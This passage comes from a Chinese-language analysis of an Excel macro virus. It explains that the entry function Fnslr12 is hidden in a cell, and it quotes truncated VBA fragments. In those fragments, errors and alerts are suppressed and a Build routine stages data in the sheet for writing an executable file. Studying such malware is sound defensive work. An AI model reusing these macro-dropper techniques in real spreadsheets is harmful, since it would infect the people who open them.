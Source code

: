 单元格的格式默认是显示的，初始设置为，

![p4](http://drops.javaweb.org/uploads/images/65f3057c5ee7c217bae8b2122ed0340a7e535d62.jpg)

去掉隐藏后，查看表格中该值是 Fnslr12 ， 即病毒的功能入口函数名称，函数代码为，

```
Sub Fnslr12()

On Error Resume Next
Application.DisplayAlerts = False
Call Build
Sheets(1).Select
Dim WB As Workbook
Set WB = ActiveWorkbook

Dim Sh1, Sh2, sh3 As Worksheet
Set Sh1 = WB.Sheets(1)
Set Sh2 = WB.Sheets(2)

If Cells(2, 1) <> "" Then
GoTo skyhigh
End If
''' 以下省略

```

因此，该函数为病毒代码的主功能函数。

此函数的功能有，

### 1、Call Build

调用 Build 函数， Build 函数功能为：在表格中动态生成，待写入 可执行文件（pe文件）所需的数据，其功能代码简略如下，

```
Sub Build()

Sheets(2).Select
Set WB = ActiveWorkbook
Set Sh1 = WB.Sheets(1)
Set Sh2 = WB.Sheets(2)

'bob location
i = Sh2.Cells(1000, 12)
j = Sh2.Cells(1000, 13)

'index table location
R = Sh2.Cells(1000, 10)
C = Sh2.Cells(1000, 11)

Counter = R
Do While Sh2.Cells(Counter, C) <> ""

If Sh2.Cells(Counter, C + 1) <> "" Then
S1 = Sh2.Cells(Counter, C)
S2 = Sh2.Cells(Counter, C + 1)
End If
Counter = Counter + 1
Loop

Cells(i, j).Select
 Range(Selection, Selection.End(xlDown)).Select
Selection.Cut
Range("i1001").Select
ActiveSheet.Paste
```